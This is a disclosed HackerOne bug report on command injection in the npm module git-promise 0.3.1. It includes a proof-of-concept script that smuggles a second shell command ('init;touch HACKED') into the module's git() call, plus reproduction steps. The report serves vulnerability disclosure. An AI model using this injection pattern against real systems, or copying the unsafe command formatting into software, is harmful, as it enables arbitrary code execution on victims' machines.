 # [git-promise] RCE via insecure command formatting

## Report Details
- **Report ID**: 728047
- **URL**: https://hackerone.com/reports/728047
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-02T22:35:30.566Z
- **Disclosed**: 2020-04-25T19:33:02.913Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `git-promise` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `git-promise`
**version:** `0.3.1`
**npm page:** `https://www.npmjs.com/package/git-promise`

## Module Description
> Simple wrapper that allows you to run any git command using a more intuitive syntax.

## Module Stats
[~1.5k] downloads in the last day
[11,322] downloads in the last week
[~45k] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/piuccio/git-promise/blob/master/index.js#L9

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var git = require("git-promise");
 
git("init;touch HACKED").then(function (branch) {
  console.log(branch); // This is your current branch
});

```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i git-promise # Install affected module
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :) {F624221}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `git-promise`

## Attachments
- Screenshot_from_2019-11-02_23-31-57.png
